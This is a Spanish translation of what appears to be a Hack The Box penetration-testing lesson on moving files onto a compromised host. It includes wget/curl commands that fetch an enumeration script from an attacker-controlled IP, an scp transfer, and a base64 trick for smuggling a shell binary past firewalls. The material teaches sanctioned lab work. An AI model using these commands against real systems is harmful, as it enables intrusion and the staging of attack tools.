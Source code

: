 # Transferir archivos

---

Durante cualquier ejercicio de prueba de penetración, es probable que necesitemos transferir archivos al servidor remoto, como scripts o exploits de enumeración, o transferir datos a nuestro host de ataque. Mientras que herramientas como MetaSploit con un shell meterpreter nos permiten usar el`Upload`Comando para cargar un archivo, necesitamos aprender métodos para transferir archivos con un shell inverso estándar.

---

## Usando wget

Hay muchos métodos para lograr esto. Un método es ejecutar un[Servidor Python HTTP](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/set_up_a_local_testing_server)en nuestra máquina y luego usando`wget`o`cURL`Para descargar el archivo en el host remoto. Primero, entramos en el directorio que contiene el archivo que necesitamos para transferir y ejecutar un servidor Python HTTP en él:

  Transferir archivos

```shell-session
xnoxos@htb[/htb]$ cd /tmp
xnoxos@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Ahora que hemos configurado un servidor de escucha en nuestra máquina, podemos descargar el archivo en el host remoto en el que tenemos la ejecución del código:

  Transferir archivos

```shell-session
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
```

Tenga en cuenta que usamos nuestra IP`10.10.14.1`y el puerto de nuestro servidor Python se ejecuta`8000`. Si el servidor remoto no tiene`wget`, podemos usar`cURL`Para descargar el archivo:

  Transferir archivos

```shell-session
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```

Tenga en cuenta que usamos el`-o`Indicador para especificar el nombre del archivo de salida.

---

## Usando SCP

Otro método para transferir archivos sería usar`scp`, concedido hemos obtenido credenciales de usuario SSH en el host remoto. Podemos hacerlo de la siguiente manera:

  Transferir archivos

```shell-session
xnoxos@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```

Tenga en cuenta que especificamos el nombre del archivo local después`scp`, y el directorio remoto se guardará después del`:`.

---

## Usando base64

En algunos casos, es posible que no podamos transferir el archivo. Por ejemplo, el host remoto puede tener protecciones de firewall que nos impiden descargar un archivo de nuestra máquina. En este tipo de situación, podemos usar un truco simple para[base64](https://linux.die.net/man/1/base64)codificar el archivo en`base64`formatear, y luego podemos pegar el`base64`Cadena en el servidor remoto y lo decodifica. Por ejemplo, si queríamos transferir un archivo binario llamado`shell`, podemos`base64`Encodelo de la siguiente manera:

  Transferir archivos

```shell-session
xnoxos@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

Ahora podemos copiar esto`base64`cadena, vaya al host remoto y use`base64 -d`para decodificarlo y encender la salida en un archivo:

  Transferir archivos

```shell-session
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

---

## Validación de transferencias de archivos

Para validar el formato de un archivo, podemos ejecutar el[archivo](https://linux.die.net/man/1/file)comandar en él:

  Transferir archivos

```shell-session
user@remotehost$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

Como podemos ver, cuando ejecutamos el`file`comando en el`shell`Archivo, dice que es un binario ELF, lo que significa que lo transferimos con éxito. Para asegurarnos de no estropear el archivo durante el proceso de codificación/decodificación, podemos verificar su hash MD5. En nuestra máquina, podemos ejecutar`md5sum`en él:

  Transferir archivos

```shell-session
xnoxos@htb[/htb]$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

Ahora, podemos ir al servidor remoto y ejecutar el mismo comando en el archivo que transferimos:

  Transferir archivos

```shell-session
user@remotehost$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

Como podemos ver, ambos archivos tienen el mismo hash MD5, lo que significa que el archivo se transfirió correctamente. Existen varios otros métodos para transferir archivos. Puedes ver el[Transferencias de archivos](https://academy.hackthebox.com/module/details/24)Módulo para un estudio más detallado sobre la transferencia de archivos.